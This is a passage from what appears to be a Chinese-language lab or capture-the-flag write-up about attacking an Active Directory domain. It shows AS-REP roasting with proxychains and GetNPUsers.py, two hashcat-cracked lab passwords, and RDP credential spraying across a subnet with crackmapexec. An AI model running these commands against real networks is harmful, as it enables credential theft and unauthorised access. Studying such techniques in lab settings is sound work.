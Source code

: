
使用 phpmyadmin 进行数据库连接后将用户导出

### AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```bash
proxychains python3 GetNPUsers.py -dc-ip 172.22.15.13 -usersfile /home/quan9i/zdoosys_user.txt xiaorang.lab/
```

[![](assets/1707954847-8004ca5997a43ae252739ae0f9c28551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209164143-0d37f5dc-c727-1.png)

`hashcat`爆破得到两组用户

```bash
lixiuying:winniethepooh
huachunmei:1qaz2wsx
```

使用`cme`尝试可 RDP 登录的主机

```bash
proxychains ./cme rdp 172.22.15.9/24 -u lixiuying -p winniethepooh -d xiaorang.lab
```

[![](assets/1707954847-1a8cb981715cec886ff1f424150da353.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209164222-24622944-c727-1.png)
